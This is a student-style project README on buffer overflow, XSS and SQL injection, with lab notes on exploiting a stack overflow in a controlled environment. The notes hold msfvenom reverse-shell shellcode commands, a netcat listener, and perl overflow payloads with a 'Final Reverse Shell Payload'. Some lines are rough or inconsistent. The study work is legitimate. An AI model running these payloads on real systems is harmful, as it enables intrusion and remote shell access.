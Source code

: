 # Project: Exploring Buffer Overflow, XSS and SQL Injection Techniques

<!-- markdown-toc start - Don't edit this section. Run M-x markdown-toc-refresh-toc -->
**Table of Contents**

- [Project: Exploring Buffer Overflow, XSS and SQL Injection Techniques](#project-exploring-buffer-overflow-xss-and-sql-injection-techniques)
    - [Owner](#owner)
    - [Methodology](#methodology)
    - [Results and Discussion](#results-and-discussion)
- [Buffer Overflow](#buffer-overflow)
    - [Generate Shell Code](#generate-shell-code)
    - [Findings](#findings)
        - [TODO](#todo)
        - [Sources](#sources)

<!-- markdown-toc end -->


This project aims to explore the vulnerabilities of software systems through the use of buffer overflow and SQL injection attacks. These types of attacks are commonly used by malicious actors to gain unauthorized access to sensitive information, disrupt system functionality, or execute arbitrary code on a target system.

Additionally, the project will utilise industry standard tools such as Metasploit Framework to conduct the experiments, demonstrating the ability to work with real-world tools and technologies used in penetration testing and vulnerability assessments. Furthermore, the project will also include a section on mitigation techniques and best practices for secure software development, showing the ability to not only identify vulnerabilities but also propose solutions to fix them. This will showcase a well-rounded understanding of the field, which is highly desirable for employers in the security industry.

## Owner
* Luyang Liu

## Methodology
The project will begin by conducting research on the basics of buffer overflow and SQL injection attacks, including the underlying mechanisms, common techniques, and tools used to perform these types of attacks. This research will be used to inform the design of experiments to demonstrate the vulnerabilities of a sample software system to buffer overflow and SQL injection attacks.

The sample software system chosen for this project will be a simple web application, which will be set up in a controlled environment. The web application will be configured with known vulnerabilities, such as weak input validation and poor error handling, to make it susceptible to buffer overflow and SQL injection attacks.

Once the sample software system is set up, a series of experiments will be conducted to demonstrate the vulnerabilities of the system to buffer overflow and SQL injection attacks. These experiments will involve using a variety of tools and techniques to inject malicious input into the system and observe the resulting behaviour.

## Results and Discussion
The results of the experiments will be analyzed to determine the effectiveness of the buffer overflow and SQL injection attacks, and to identify any potential countermeasures that can be implemented to protect the sample software system from these types of attacks.

The findings of this project will be discussed in a report, which will include an overview of the research conducted, a description of the methodology used, and a detailed analysis of the results. The report will also include recommendations for improving the security of the sample software system, as well as suggestions for future research in this area.

# Buffer Overflow

## Generate Shell Code

* This sheems to work
```shell
msfvenom -p linux/x86/shell/reverse_tcp -f c
```

```sh
msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.0.2.15 LPORT=4444 -f c
```

* This enable shikata_ga_nai encoding
```shell
sudo msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.0.2.15 LPORT=4444 -e x86/shikata_ga_nai -i 10 -f c
```


* Basic encoding
```sh
sudo msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.0.2.15 LPORT=4444 -f c -b "\x00\x0a\x0d\x20"
```

* List encoders

```sh
./msfvenom -l encoders
```

## Findings
* Stacks grow from higher address to lower
* So the buffer would be above the frame pointer and return address.
* The goal is to replace the return address to the NOP slide.
* Afterwards run the payload (reverse shell code)

* From question one the payload is too short to reach the return address so the code runs normally

### 2023-01-30 
* Original metasploit shell code linux/x86/shell_reverse_tcp is missing an exit code

```sh
xcd\x80
```

* Netcat from other (attacker) terminal needs to be turned on for shellcode to work.
```sh
nc -lvp 80


### 2023-01-31 
* By using BOF pattern generator discovered return address offset is **44**.

* Generate exploit
    * return address is **0x080485c4**
    * return address is \xc4\x85\x04\x08
    * return to shell  code is \xd0\xf1\xff\xbf
    * Beginning of buffer is 0xbffff190
    * Beginning of buffer is \x90\xf1\xff\xff\xbf



* Before return address
```sh
perl -e 'print "\x90"x4,"\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x51\x89\xe2\x53\x89","\xe1\xcd\x80\x90", "\x90\xf1\xff\xff\xbf"*10' > badfile && cat badfile
```

* After return address
```sh
perl -e 'print "\x90"x44,"\xd0\xf1\xff\xbf"x5,"\x90"x8,"\x31\xc0\x31\xdb\x31\xc9\x99\xb0\xa4\xcd\x80\x6a\x0b\x58\x51\x68","\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x51\x89\xe2\x53\x89","\xe1\xcd\x80\x90"' > badfile && cat badfile
```

* Shell code only
```sh
perl -e 'print "\x31\xc0\x31\xdb\x31\xc9\x99\xb0\xa4\xcd\x80\x6a\x0b\x58\x51\x68","\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x51\x89\xe2\x53\x89","\xe1\xcd\x80\x90"' > badfile && cat badfile
```

* Final Reverse Shell Payload
```SH
perl -e 'print "\x90"x44,"\xd0\xf1\xff\xbf"x5,"\x90"x8,"\x31\xdb\xf7\xe3\x53\x43\x53\x6a\x02\x89\xe1\xb0\x66\xcd","\x80\x93\x59\xb0\x3f\xcd\x80\x49\x79\xf9\x68\x0a\x00\x02","\x0f\x68\x02\x00\x11\x5c\x89\xe1\xb0\x66\x50\x51\x53\xb3","\x03\x89\xe1\xcd\x80\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f","\x62\x69\x89\xe3\x52\x53\x89\xe1\xb0\x0b\xcd\x80\xcd\x80"'
```

* Shell code without reverse shell

### TODO
* Make the overflow payload str end with repeated return address.
* Reverse Shellcode in the middle for execution
* NOP slide at the start so it can trap the execution.

### Sources
https://docs.metasploit.com/docs/using-metasploit/basics/how-to-use-a-reverse-shell-in-metasploit.html
https://docs.metasploit.com/docs/using-metasploit/basics/how-to-use-msfvenom.html
